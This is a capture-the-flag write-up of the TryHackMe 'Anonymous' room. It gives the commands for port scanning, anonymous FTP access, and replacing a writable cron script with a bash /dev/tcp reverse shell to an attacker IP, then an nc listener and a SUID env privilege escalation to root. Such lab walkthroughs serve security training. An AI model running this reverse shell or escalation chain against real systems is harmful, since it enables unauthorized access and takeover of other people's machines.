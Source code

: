 # Anonymous Room Walkthrough

Link: [TryHackMe Anonymous Room](https://tryhackme.com/r/room/anonymous)

---

## 1. Scanning Ports

First, let's scan the ports using `Rustscan` and `Nmap`:

```bash
rustscan --ulimit 5000 -a 10.10.104.130
```

Let's use `rustscan` to get all the open ports quickly.

Next, use `Nmap` to gather more information about the open ports:

```bash
nmap -A -p 21,22,139,445 10.10.104.130
```

![Screenshot 2025-01-18 182927](https://github.com/user-attachments/assets/2cac72dc-587c-4330-908d-9973618f4c16)

From the scan results, we find that the FTP port allows anonymous login.

---

## 2. Logging into FTP

We log in using the following credentials:

- **Username**: `anonymous`
- **Password**: `anonymous`

Successful login confirms access to the FTP server. Let's enumerate the directory:

```bash
ls
```

We find a directory named `scripts`. Navigate into it:

```bash
cd scripts
ls
```

Inside, we discover three files, including a shell script with full access:

```bash
-rwxr-xrwx    1 1000     1000          314 Jun 04  2020 clean.sh
```

---

## 3. Downloading Files

To inspect the files, download all of them using the following command:

```bash
mget *
```

![Screenshot 2025-01-18 184254](https://github.com/user-attachments/assets/7e9160ed-b0ce-4c72-a1cd-f5376868046d)

The files are downloaded to your terminal's working directory.

After reviewing the files, the `clean.sh` script is identified as significant. It schedules periodic cleaning tasks. This presents an opportunity to exploit it with a reverse shell.

![Screenshot 2025-01-18 185223](https://github.com/user-attachments/assets/fbca5f47-9f77-4937-adb0-82f56b42b718)

![Screenshot 2025-01-18 185106](https://github.com/user-attachments/assets/3ca94d02-55ba-47c7-bf07-5e166e584bb7)

---

## 4. Reverse Shell Exploitation

Search online for a one-liner reverse shell. Here’s an example:

```bash
bash -i >& /dev/tcp/10.17.55.14/7788 0>&1
```

Replace `10.17.55.14` with your IP address and `7788` with your preferred port number.

Modify the `clean.sh` file to include the reverse shell command:

```bash
nano clean.sh
```

Update the script:

```bash
#!/bin/bash
bash -i >& /dev/tcp/10.17.55.14/7788 0>&1
```

Save the changes and re-upload the file to the FTP server:

```bash
put clean.sh
```

![Screenshot 2025-01-18 190548](https://github.com/user-attachments/assets/ea2ff980-d89c-40d0-b432-33b05e03d5a8)

![Screenshot 2025-01-18 191446](https://github.com/user-attachments/assets/b7e26c71-bc44-41da-ace3-1b58fe68081a)

---

## 5. Listening for Reverse Shell

Start a listener on your terminal to catch the reverse shell:

```bash
nc -lvnp 7788
```

Within a minute, a connection is established, giving access to the target system.


![Screenshot 2025-01-18 191511](https://github.com/user-attachments/assets/af35f0af-b477-48d3-9e90-c9470ab09145)

---

## 6. Privilege Escalation

### Upgrading Shell

First, upgrade the shell for better usability:

```bash
python -c "import pty; pty.spawn('/bin/bash')"
```

### Finding SUID Files

Search for SUID files on the system:

```bash
find / -type f -perm -04000 -ls 2>/dev/null
```

![Screenshot 2025-01-19 180053](https://github.com/user-attachments/assets/68de0ae0-153d-404f-9a98-efc2751f8c88)

From the results, we find that `/usr/bin/env` has the SUID bit set.

### Exploiting SUID Vulnerability

Referencing [GTFOBins](https://gtfobins.github.io/), we discover a vulnerability in `env` that allows us to escalate privileges. Execute the following command:

```bash
/usr/bin/env /bin/sh -p
```

![Screenshot 2025-01-19 180308](https://github.com/user-attachments/assets/bfde2dc2-4f56-4ca7-9e7d-74d77ecbbaa2)

This grants root access.

![Screenshot 2025-01-19 180544](https://github.com/user-attachments/assets/fe381a58-3f1d-45d2-b081-5657ab7d5ff6)

---


**Enjoy :) !!**

